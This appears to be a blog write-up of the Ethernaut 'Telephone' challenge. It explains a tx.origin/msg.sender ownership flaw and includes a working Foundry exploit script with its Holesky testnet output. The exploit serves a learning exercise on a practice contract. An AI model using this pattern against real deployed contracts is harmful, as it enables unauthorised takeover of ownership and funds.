 ```yaml
---
layout: post
title: "Telephone"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. Claim ownership

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

When initially creating a contract, the `owner` is set to `msg.sender`. However, in the `changeOwner()` function, if `tx.origin` and `msg.sender` are different, **the value received as an argument** is set as the `owner`.

`tx.origin` is the address that first initiated the contract call (it's always an EOA account),

`msg.sender` is the address that last called the contract.

If I call contract A, and contract A calls contract B, a difference will arise between `tx.origin` and `msg.sender` within contract B.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Telephone.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    constructor(Telephone telephone_, address _address) {
        telephone_.changeOwner(_address);
    }
}

contract TelephoneSol is Script {
    Telephone public telephone_ = Telephone(0x2823D4881bbE52bBaCc385753eDf4Fb5f15167fe);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("owner: ", telephone_.owner());
        new Ex(telephone_, vm.envAddress("MY_ADDRESS"));
        console.log("owner: ", telephone_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/TelephoneSol.sol --broadcast --tc TelephoneSol
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠔] Solc 0.8.29 finished in 283.34ms
Compiler run successful!
Script ran successfully.

== Logs ==
  owner:  0x983B67F395c62AeE070B9c34033Bc8836E0713Eb
  owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001913718 gwei

Estimated total gas used for script: 107575

Estimated amount required: 0.00000020586821385 ETH

==========================
⠁ Sequence #1 on holesky | Waiting for pending transactions
    ⠠ [Pending] 0xeb3d1ed29a0f8fbf261705f6b3f6d721b8a1f3e312a5d41ed3d4194ae44f274d
    ⠲ [00:00:08] [#####################################################################] 1/1 txes (0.0s)

##### holesky
✅  [Success] Hash: 0xeb3d1ed29a0f8fbf261705f6b3f6d721b8a1f3e312a5d41ed3d4194ae44f274d
Contract Address: 0x596F07f432EB60a01F9ff7007060F4982b7C01fC
Block: 3672184
Paid: 0.000000158359337 ETH (82750 gas * 0.001913708 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000158359337 ETH (82750 gas * avg 0.001913708 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Telephone/complete.png)

![Image owner]({{site.url}}/images/2025-04-18-Telephone/owner().png)